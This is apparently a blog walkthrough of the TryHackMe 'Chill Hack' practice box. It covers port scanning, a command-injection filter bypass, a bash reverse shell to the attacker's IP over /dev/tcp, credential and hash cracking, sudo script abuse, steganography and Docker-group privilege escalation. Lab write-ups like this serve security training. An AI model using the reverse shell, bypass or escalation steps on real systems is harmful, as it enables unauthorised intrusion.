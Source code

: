 ```yaml
---
layout: post
title:  "TryHackMe - Chill Hack"
date:   2022-05-03 08:47:00 -0400
tags: tryhackme pentesting cybersecurity
comments: true
---
```


[Chill Hack](https://tryhackme.com/room/chillhack) is an easy-ranked box. Unfortunately, it wasn't the most fun box to do, with a handful of unrealistic and unintuitive stops along the killchain.

## Nmap Enumeration
As ever, the first thing to do is run an nmap scan to see what services are accessible to us on the box. People always have their own methodology for what command line options to use, but here are the ones I went with.

- `-sC`: Run default scripts. Nmap can do additional enumeration beyond just checking for open ports, and this option will run some quick and useful extra scans to give us even more information about what we’re working with.
- `-sV`: Run version detection. Knowing what specific version of a service is in use can help with finding potential vulnerabilities, or ruling them out.
- `-v`: Be verbose. This outputs extra information to the console as the scan runs, the most useful of which are status updates and showing open ports as it finds them.
- `-oA`: Outputs the result of the command into several file formats. Having a persistent record of the scan to go back to later is always useful.

```bash
nmap -sC -sV -vvv -oA nmap/initial 10.10.86.64
```

It's good to do a quick basic nmap scan of the top 1000 ports first to have a starting point and then run a second more comprehensive scan in the background later. In this case, the first scan gives us pretty much all the information we'll need to proceed.

Nmap finds three open ports: port 21 running FTP, port 22 running SSH, and port 80 hosting an HTTP server.

Thanks to running the default scripts, we also know that the FTP server allows anonymous login and that there's a potentially interesting file sitting on it.

```
PORT   STATE SERVICE REASON  VERSION
21/tcp open  ftp     syn-ack vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 1001     1001           90 Oct 03  2020 note.txt
```

## FTP/HTTP Enumeration
Since the FTP server is such a low-hanging fruit and it'll be very quick to check out, we'll start there. We can confirm that anonymous login does indeed work on the server, and that the file on it is accessible to us.

```
Anurodh told me that there is some filtering on strings being put in the command -- Apaar
```

There's not much else to see there, so we'll move onto the web server. At first glance, the site seems to just be a flat HTML website without much of an attack area, so we'll pass things along to a directory brute force tool (in my case, Feroxbuster) to see if there's anything hidden from us.

Sure enough, Feroxbuster finds a `/secret` directory that seems to have a place for us to input arbitrary shell commands.

![Secret Directory](/assets/images/chillhack/2022-05-03_15-34.png)

## Command Injection
We can deduce from the note on the FTP server that there is some sort of protection in place to keep us from having free rein of the capability. Running `whoami` confirms that we do have the ability to run commands and that we'll be running as the `www-data` user.

![whoami Output](/assets/images/chillhack/2022-05-03_10-38.png)

Next we'll try running `bash -c` to see if we can get a reverse shell that way. Unsurprisingly, we trigger the filter.

![Command Filter](/assets/images/chillhack/2022-05-03_11-02.png)

A common way of bypassing these kinds of filters is escaping characters. Escape characters like `\n` or `\t` can affect how text is formatted, and escaping special characters like `\'` or `\\` lets us use special characters in places where they normally have special meaning. Escaping characters that don't have any special meaning, however, will simply output the character as normal.

![Filter Bypass](/assets/images/chillhack/2022-05-03_11-03.png)

Now that we know we can bypass the filter, we can start building out a reverse shell to give us better access to the box.

```bash
b\ash -c "b\ash -i >& /dev/tcp/10.13.14.52/9001 0>&1"
```

## Privilege Escalation
We land as `www-data` in the `/var/www/html` directory. Poking around there, it we find that there's a second web app sitting in `/var/www/files`. In there, we have a PHP file that includes a MySQL configuration.

```php
$con = new PDO("mysql:dbname=webportal;host=localhost","root","!@m+her00+@db");
```

Unfortunately, that password doesn't work as the `root` password, but we can still poke at the MySQL database. There's a `users` table in the `webportal` database, so we can pull a pair of MD5 hashed passwords.

```
+----+-----------+----------+-----------+----------------------------------+
| id | firstname | lastname | username  | password                         |
+----+-----------+----------+-----------+----------------------------------+
|  1 | Anurodh   | Acharya  | Aurick    | 7e53614ced3640d5de23f111806cc4fd |
|  2 | Apaar     | Dahal    | cullapaar | 686216240e5af30df0501e53c789a649 |
+----+-----------+----------+-----------+----------------------------------+
2 rows in set (0.00 sec)
```

MD5 us a very broken hashing algorithm, so we're able to just run them through CrackStation to get the passwords.

![CrackStation Output](/assets/images/chillhack/2022-05-03_11-18.png)

Unfortunately, these passwords don't work on any of the accounts on the box either.

Enumerating the accounts on the box, we have three users outside of `root`: `anurodh`, `apaar`, and `aurick`. Interestingly, we have read access to `apaar`'s home directory. Even more interestingly, there's a shell script called `.helpline.sh` with another command injection vulnerability. And even more interestingly, we can run that script as `apaar`.

```bash
read -p "Enter the person whom you want to talk with: " person
read -p "Hello user! I am $person,  Please enter your message: " msg
$msg 2>/dev/null
```

```
www-data@ubuntu:/$ sudo -l
Matching Defaults entries for www-data on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ubuntu:
    (apaar : ALL) NOPASSWD: /home/apaar/.helpline.sh
```

If we input `bash` at the `msg` prompt, we land in a bash shell as the `apaar` user. From here we can grab the user flag in the `local.txt` file. We can drop an SSH key in here as well to give us a better, more friendly shell.

## Privesc 2: Electric Boogaloo
Unfortunately, `apaar` doesn't give us a lot of additional permissions, so we'll need to keep poking. Checking `netstat`, there's another service available only to localhost on port 9001 that we can check next.

```
apaar@ubuntu:~$ netstat -lpnut
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 127.0.0.1:9001          0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -
tcp6       0      0 :::80                   :::*                    LISTEN      -
tcp6       0      0 :::21                   :::*                    LISTEN      -
tcp6       0      0 :::22                   :::*                    LISTEN      -
udp        0      0 127.0.0.53:53           0.0.0.0:*                           -
udp        0      0 10.10.86.64:68          0.0.0.0:*                           -
```

Since we already have SSH access, we can use SSH port forwarding to look at it on our local machine.

```bash
ssh -i apaar.key -L 9001:127.0.0.1:9001 apaar@10.10.86.64
```

Checking this new port out, it turns out it's running a web server. We're greeted with a login page.

![Login Page](/assets/images/chillhack/2022-05-03_12-54.png)

From the PHP code we found earlier, we know that this app is vulnerable to SQL injection, and from the database dump we know the usernames and passwords to log in. Either way, we get in.

![After Login](/assets/images/chillhack/2022-05-03_12-55.png)

Not much to go on here. We have to take a bit of a leap of faith and investigate the image. Turns out it has some steganography in it.

```
$ steghide info hacker-with-laptop_23-2147985341.jpg
"hacker-with-laptop_23-2147985341.jpg":
  format: jpeg
  capacity: 3.6 KB
Try to get information about embedded data ? (y/n) y
Enter passphrase: 
  embedded file "backup.zip":
    size: 750.0 Byte
    encrypted: rijndael-128, cbc
    compressed: yes
                                                                                                                     
$ steghide extract -sf hacker-with-laptop_23-2147985341.jpg 
Enter passphrase: 
wrote extracted data to "backup.zip".
```

The zip has one file, but it's password protected. That's nothing John The Ripper and rockyou.txt can't take care of. The PHP file includes a Base64 encoded password and a reference to Anurodh, which matches one of the usernames we found earlier.

## I Am Root
With the new password, we're able to SSH into the box as the `anurodh` user. It turns out Anurodh is a member of the `docker` group, which could be a potential escalation vector.

```
anurodh@ubuntu:~$ id
uid=1002(anurodh) gid=1002(anurodh) groups=1002(anurodh),999(docker)
```

With a little help from [GTFOBins](https://gtfobins.github.io/gtfobins/docker/), we can mount the filesystem into a Docker image, which will give us free rein to view whatever files we want, including the root flag in the `proof.txt` file.